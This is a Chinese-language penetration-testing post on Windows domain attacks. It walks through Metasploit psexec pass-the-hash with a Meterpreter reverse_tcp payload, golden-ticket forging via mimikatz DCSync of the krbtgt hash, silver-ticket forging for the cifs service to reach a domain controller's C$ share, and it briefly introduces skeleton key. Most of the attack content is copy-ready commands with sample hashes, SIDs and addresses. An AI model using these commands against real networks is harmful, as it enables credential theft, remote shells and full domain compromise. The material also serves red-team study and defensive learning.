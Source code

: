 ## MSF进行哈希传递
Copy有些时候，当我们获取到了某台主机的Administrator用户的LM-Hash和 NTLM-Hash ，并且该主机的445端口打开着。我们则可以利用 `exploit/windows/smb/psexec` 漏洞用MSF进行远程登录(哈希传递攻击)。(只能是administrator用户的LM-hash和NTLM-hash)，这个利用跟工作组环境或者域环境无关。

```
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit 
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/22.png)

## 票据传递攻击(PTT)
### 黄金票据
域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取krbtgt的用户hash:


```
mimikatz "lsadump::dcsync /domain:test.com /user:krbtgt"
```
利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid值、krbtgt的ntlm，如下：

```
kerberos::golden /admin:administrator /domain:test.com /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/23.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/24.png)

## 白银票据
黄金票据和白银票据的一些区别：Golden Ticket：伪造TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS ，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

```
#在域控上导出 DC$ 的 HASH
mimikatz log "privilege::debug" "sekurlsa::logonpasswords"

#利用 DC$ 的 Hash制作一张 cifs 服务的白银票据
kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

#cifs是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
dir \\DC.ABC.COM\C$
```
（没做）
### skeleton key
skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。
